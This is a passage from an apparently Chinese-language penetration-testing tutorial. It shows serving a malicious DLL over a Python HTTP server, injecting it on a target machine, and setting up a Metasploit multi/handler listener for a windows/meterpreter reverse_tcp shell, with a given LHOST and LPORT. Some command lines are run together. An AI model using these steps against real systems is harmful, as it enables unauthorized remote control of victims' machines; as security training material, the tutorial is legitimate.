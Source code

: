 （2）使用 python 命令 (python3 -m http.server 8008) 构建简单的服务，在目标机器上使用浏览器下载至桌面。在目标机器上注入此 dll 后，将与恶意主机建立连接。效果如下：

[![](assets/1701606587-396aabd6b6ec0eb1b6f035db2494ff9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162639-07a28fb0-8523-1.png)

（3）接下来将在 Kali 启动脚本开启监听，为后续操作建立通道。

执行如下命令：

```plain
msfconsole:开启 msf 框架；use exploit/multi/handler：生成处理器；set payload windows/meterpreter/reverse_tcp：指定监听的地址与端口
```

[![](assets/1701606587-3072645972d1298cdfb9ba867993814a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162710-1a43e3b2-8523-1.png)

当 payload 在目标系统上执行时，它将启动一个 TCP 回连攻击者的机器。查看参数要求并运行命令：

```plain
set LHOST 192.168.230.155set LPORT 88run
```
